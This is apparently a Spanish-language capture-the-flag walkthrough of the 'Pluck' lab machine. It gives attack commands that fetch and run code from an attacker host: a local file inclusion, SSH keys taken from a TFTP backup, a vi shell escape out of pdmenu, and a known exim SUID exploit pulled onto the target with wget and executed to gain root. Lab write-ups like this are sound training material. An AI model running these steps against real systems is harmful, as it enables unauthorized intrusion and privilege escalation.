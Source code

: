 # Pluck

***
- Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa. Esta maquina ya te muestra la IP al momento de arrancar el sistema, pero igual prefiero utilizar mi  [script](https://github.com/JoseVazquez101/My-scr1pt5/blob/main/hostscan.sh) para escanear mi red local y asegurarme que todo vaya en orden.

- Añadimos una resolución DNS local con el siguiente comando:
  ~~~bash
  echo '192.168.17.135  sumo.vh' >> /etc/hosts
  ~~~
- Si todo funciona, llegaría la hora de realizar el escaneo con nmap, con los siguientes parámetros:
~~~ bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV pluck.vh
~~~
- Vemos que hay cuatro servicios activos, entre los cuales parecen encontrarse ssh, http, mysql y mDNS:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/99846ec6-826e-47cf-8d53-bb9066cefb45)

- La pagina web tramita sus solicitudes a través del campo de la URL, indicando que pagina visita de esta forma:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/290e1d40-4137-457b-83dd-ac492c76933d)

  - Esto puede derivar a una LFI si nos permite apuntar a recursos fuera de la carpeta anterior, indicando con `../` que queremos movernos hacia atrás:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bdbdd0d1-f04c-49f4-ac18-085911e06113)

  - Hasta abajo, observamos que hay una ruta absoluta a lo que parece ser un script para backups, por lo que podremos echar un vistazo a su contenido:
    ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/56541255-1260-4c2d-bf80-355e130bc8be)
   
- Parece ejecutar una serie de comandos, pero eso no importa mucho. Vemos que nos dice que podemos obtener el recurso via `tFTP`, el cual es un protocolo upd parecido a FTP. Nos conectamos y obtenemos el recurso.
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/64820d2b-c213-4028-af1c-ac36328d1927)

- Podemos analizarlo si lo descomprimimos con:
~~~bash
7z x backup.tar
~~~

- Son varias carpetas, pero en una podemos ver pares de llaves, posiblemente pares de llaves publicas y privadas de ssh.
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/48b21c4b-aa42-4a57-b480-897cad7fa0c2)

- Si listamos los contenidos, parecen cambiar en que algunas utilizan DSS y otras RSA para cifrarlas, en este punto probé todas las claves publicas hasta que alguna resultara valida, pues todas son del usuario Paul

~~~ bash
ssh paul@pluck.vh -i <pub_key>
~~~

- En este caso, si disponemos de la clave privada correcta alojada en el servidor victima, no nos debería pedir proporcionar una contraseña:
- Finalmente con una de las llaves podemos acceder, pero este usuario no poseé una bash, sino algo llamado pdmenu:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/19a4dcc7-277f-4668-8a3e-d13529a1f0cb)

- Tenemos un modulo para editar archivos, y este utiliza vi. Según [GTFOBins](https://gtfobins.github.io/gtfobins/vi/) existe una manera para hacer que este binario nos lance una bash.
- Nos metemos a cualquier archivo para editar, ya sea /etc/passwd y presionamos SHIFT+: para insertar las siguientes variables
~~~bash
:set shell=/bin/sh
:shell
~~~

***

<h3>PrivEsc</h3>
- Ya con completa libertad de movilidad, empecemos con listar los permisos SUID.
~~~ bash
find / -perm -4000 2>/dev/null
~~~
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/9b43745d-98cc-46a7-992a-1f9e29641298)

- Vemos un binario `exim`, el cual es empleado para servicios de correo en equipos Unix
	- Exim: https://www.exim.org/
- Nos deja ver la versión, así que podríamos intentar ver si existe algún exploit conocido en searchsploit, así que lo movemos y pasamos a la maquina victima:

- Maquina local:
  ~~~bash
  searchsploit -m linux/local/39535.sh
  python3 -m http.server 9999
  wget 192.168.17.128:9999/39535.sh
  mv 39535.sh exploit.sh
  chmod +x exploit.sh
  ./exploit.sh
  ~~~
- Y con esto ya seriamos root :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aabef773-920f-4f7b-ad63-5785a4f81be1)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/ae56085a-d6a3-4b3e-b1f9-28142195dff0)

